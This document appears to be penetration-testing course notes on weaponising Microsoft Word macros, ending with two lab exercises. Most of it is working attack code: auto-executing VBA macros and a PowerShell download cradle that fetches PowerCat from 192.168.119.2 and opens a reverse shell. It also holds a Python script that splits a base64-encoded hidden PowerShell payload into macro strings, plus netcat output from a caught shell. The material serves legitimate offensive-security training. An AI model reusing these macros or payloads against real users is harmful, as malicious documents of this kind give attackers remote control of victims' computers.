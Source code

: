 # Leveraging Microsoft Word Macros

Default empty macro
>``` shell
>Sub MyMacro()
>'
>' MyMacro Macro
>'
>'
>
>End Sub
>```

Macro opening powershell.exe
>``` shell
>Sub MyMacro()
>
>  CreateObject("Wscript.Shell").Run "powershell"
>  
>End Sub
>```

Macro automatically executing powershell.exe after opening the Document
>``` shell
>Sub AutoOpen()
>
>  MyMacro
>  
>End Sub
>
>Sub Document_Open()
>
>  MyMacro
>  
>End Sub
>
>Sub MyMacro()
>
>  CreateObject("Wscript.Shell").Run "powershell"
>  
>End Sub
>```

Declaring a string variable and provide it as a parameter
>``` shell
>Sub AutoOpen()
>    MyMacro
>End Sub
>
>Sub Document_Open()
>    MyMacro
>End Sub
>
>Sub MyMacro()
>    Dim Str As String
>    CreateObject("Wscript.Shell").Run Str
>End Sub
>```

PowerShell download cradle and PowerCat reverse shell
>``` shell
>IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
>```

Python script to split a base64 encoded PowerShell command string
>``` shell
>str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."
>
>n = 50
>
>for i in range(0, len(str), n):
>	print("Str = Str + " + '"' + str[i:i+n] + '"')
>```

Macro invoking PowerShell to create a reverse shell
>``` shell
>Sub AutoOpen()
>    MyMacro
>End Sub
>
>Sub Document_Open()
>    MyMacro
>End Sub
>
>Sub MyMacro()
>    Dim Str As String
>    
>    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
>        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
>        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
>    ...
>        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
>        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
>        Str = Str + "A== "
>
>    CreateObject("Wscript.Shell").Run Str
>End Sub
>```

Reverse shell from Word macro
>``` shell
>kali@kali:~$ nc -nvlp 4444
>listening on [any] 4444 ...
>connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
>Windows PowerShell
>Copyright (C) Microsoft Corporation. All rights reserved.
>
>Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
>
>PS C:\Users\offsec\Documents>
>```

Lab 1 - Perform the steps from this section to create a malicious Word document containing a macro with the name MyMacro on the OFFICE (VM #1) machine. For this, you have to install Microsoft Office on VM #1 again as outlined in the section "Installing Microsoft Office". Confirm that the macro works as expected by obtaining a reverse shell from the OFFICE machine. We can log in with offsec:lab. What keyword is used to declare a variable in VBA?
>``` shell
>
>```

Lab 2 - Once you have confirmed that the macro from the previous exercise works, upload the document containing the macro MyMacro in the file upload form (port 8000) of the TICKETS (VM #2) machine with the name ticket.doc. A script on the machine, simulating a user, checks for this file and executes it. After receiving a reverse shell, enter the flag from the flag.txt file on the desktop for the Administrator user. For the file upload functionality, add tickets.com with the corresponding IP address in /etc/hosts. Please note that it can take up to three minutes after uploading the document for the macro to get executed.
>``` shell
>
>```
